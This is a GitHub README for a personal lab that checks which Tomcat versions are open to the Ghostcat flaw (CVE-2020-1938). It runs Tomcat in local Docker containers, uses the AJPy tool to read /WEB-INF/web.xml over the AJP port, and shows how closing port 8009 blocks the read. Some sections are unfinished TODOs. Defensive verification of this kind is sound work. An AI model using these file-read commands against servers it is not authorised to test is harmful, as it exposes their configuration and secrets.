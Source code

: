 # Ghostcat verification (CVE-2020-1938)

## Summary

A new exploit called Ghostcat has been found [CVE-2020-1938], see the articles on [snyk] and [tenable] for details and analysis of the exploit itself.

In my case, I wanted to verify which Tomcat servers are exploitable and if so how does it manifest itself. So this experiment is to check Tomcat 7, 8 and 9.

## Prerequsites

- docker
- python
- git

## Reading file using CVE-2020-1938 on Tomcat 7

>TODO: How to verify a Tomcat 7 is vulnerable?

## Reading file using CVE-2020-1938 on Tomcat 8

Rather than testing exploits on live servers, I am using existing builds of Tomcat to perform my experiment using [AJPy] which crafts AJP requests in order to communicate with AJP connectors.

```bash
git clone --recurse-submodules git@github.com:shaunmclernon/ghostcat-verification.git
cd ghostcat-verification/AJPy
docker run --name tomcat --rm -d -p 8080:8080 -p 8009:8009 tomcat:8.5.32
python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1
docker stop tomcat
```

If it returns the web.xml then this version of Tomcat is vulnerable to the exploit.

If we try the same test using the latest version of Tomcat 8.5 we can see it is not vulnerable to this particular error.

```bash
docker run --name tomcat --rm -d -p 8080:8080 -p 8009:8009 tomcat:8.5
python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1
docker stop tomcat
```

In this case, we should get a python error, which actually means the server is not vulnerable;

```bash
Traceback (most recent call last):
  File "tomcat.py", line 377, in <module>
    hdrs, data = bf.perform_request("/" + args.webapp + "/xxxxx.jsp", attributes=attributes)
    ...
    ...
struct.error: unpack requires a buffer of 5 bytes
```

## Reading file using CVE-2020-1938 on Tomcat 9

>TODO: How to verify a Tomcat 9 is vulnerable?

## Springboot

>TODO: How to verify a springboot service is vulnerable?

### Mitigation

Obviously if vulnerable (regardless of the version), you should consider upgrading the to the patched versions. One other option is block access to the AJP port.

Start the same Tomcat version but do not expose the AJP port 8009.

```bash
docker run --name tomcat --rm -d -p 8080:8080 tomcat:8.5.32
python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1
docker stop tomcat
```

In this case, we can see that it will fail to exploit the server.

## Disclaimer

I am not a security professional and this repo was built for my learning purposes, it is not intended to be used for malicious purposes.

[CVE-2020-1938]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938
[snyk]: https://snyk.io/blog/ghostcat-breach-affects-all-tomcat-versions/
[tenable]: https://www.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487
[AJPy]: https://github.com/hypn0s/AJPy
